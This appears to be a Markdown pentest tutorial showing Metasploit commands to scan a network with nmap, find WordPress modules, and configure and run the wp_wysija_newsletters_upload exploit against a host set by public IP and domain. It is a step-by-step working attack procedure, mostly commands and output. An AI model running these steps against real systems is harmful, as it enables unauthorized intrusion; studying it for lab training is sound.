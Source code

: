 # WordPress

### Identify a Remote Host

```sh
msf > db_nmap -v -sV 192.168.111.xxx
```

![pentest-env-kali-rolling\_\_Running\_.png](resources/575CF62D4C7E18CFD40566EA08E7D588.png)

#### Scan an Entire Network

*   This will save the results to the metasploit database

```sh
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

*   `hosts` will list all the hosts found by `nmap`.
*   `hosts -R` will add them to the list of hosts to exploit.

### Searching for a WordPress Vulnerability

```sh
msf > search name:wordpress
```

![pentest-env-kali-rolling\_\_Running\_.png](resources/A9D412A6F8C5F3485B429E2EA41D4CB9.png)

### Use an Exploit

*   This will select an exploit to use:

```sh
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

*   This will show you the attacks that the exploit will take advantage of:

```sh
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

![pentest-env-kali-rolling\_\_Running\_.png](resources/67A7D5964C96C63BA11EEA707CB4A604.png)

*   This will show what software and version will be targeted:

```sh
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```text
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

### Next configure the Exploit

```sh
msf exploit(wp_wysija_newsletters_upload) > show options
```

```text
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

*   Here is where we set all the options:

```sh
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

### Run the Exploit

```sh
msf exploit(wp_wysija_newsletters_upload) > exploit
```
